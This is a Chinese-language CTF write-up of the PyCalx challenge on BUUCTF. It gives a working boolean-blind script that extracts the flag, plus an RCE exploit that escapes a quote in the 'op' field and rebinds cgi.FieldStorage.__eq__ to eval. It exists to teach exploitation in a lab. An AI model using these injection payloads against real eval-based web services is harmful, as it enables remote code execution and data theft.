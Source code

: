 tags:: [[CTF/Python]]

- > 这题是在buuctf上复现的，buuctf提供的环境中Python环境为3.5.2，和原题不相同，导致PyCalx2无法做出（其解法依赖f-string)
- # 思路
	- 思路1：通过类似SQL布尔盲注的方式读取flag
	- 思路2：通过赋值魔术方法进行函数调用，实现RCE
	- 套路：
		- 可以通过控制source变量拿到任意字符串
		- 可以通过在集合内使用集合生成式，用`for`进行赋值
		- 可以让`op="+'"`实现字符逃逸
- # 布尔盲注读取flag
	- 可以通过对比字符串进行布尔盲注
	- 控制value1和value2的值让eval的表达式变成`'a'+''+FLAG>=source`
	- 然后通过控制source的值进行布尔盲注
	- ```python
	  known = ""
	  while True:
	      for i in range(32, 128):
	          r = base_get(url, params = {
	              "source": "a" + known + chr(i),
	              "value1": "a",
	              "op": "+'",
	              "value2": "+FLAG>=source#"
	          })
	          data = r.text.rpartition(">>>>")[2]
	          if "False" in data:
	              if i == 32:
	                  continue
	              known += chr(i - 1)
	              print(known)
	              break
	      else:
	          break
	  print(known)
	  ```
- # RCE
	- 将某个类的`__eq__`魔术方法换成eval, 然后通过对比调用`__eq__`即可调用eval进行RCE
	- 原理示例
		- ```python
		  import cgi
		  
		  fs = cgi.FieldStorage()
		  cgi.FieldStorage.__eq__ = eval
		  fs == "print(114514)" # 会打印114514
		  ```
	- 为了绕过一个eval只能运行一个表达式的限制，我们将上面的三个语句改写成set
		- ```python
		  import cgi
		  
		  arguments = cgi.FieldStorage()
		  {1 for cgi.FieldStorage.__eq__ in {eval, }} *\
		  {arguments == "print(114514)" for _ in {1, }}
		  ```
	- 根据上面的原理写exp即可，注意这里需要使用乘号控制执行顺序
		- ```python
		  payload = "__import__('time').sleep(5)"
		  r = requests.get(url, params = {
		      "source": payload,
		      "value1": "T",
		      "op": "+'",
		      "value2": "+{1 for cgi.FieldStorage.__eq__ in {eval}}*{arguments==source}#"
		  })
		  
		  data = r.text.rpartition(">>>>")[2]
		  print(data)
		  # print("False\n>>>" in data)
		  ```
- # 施工中
	- 任意字符串：使用`source`变量
	- 可以：
		- 赋值：直接使用`=`
		- 修改魔术方法
		- 使用类似布尔盲注的方式读取flag
		- 单引号逃逸
			- op: `+'`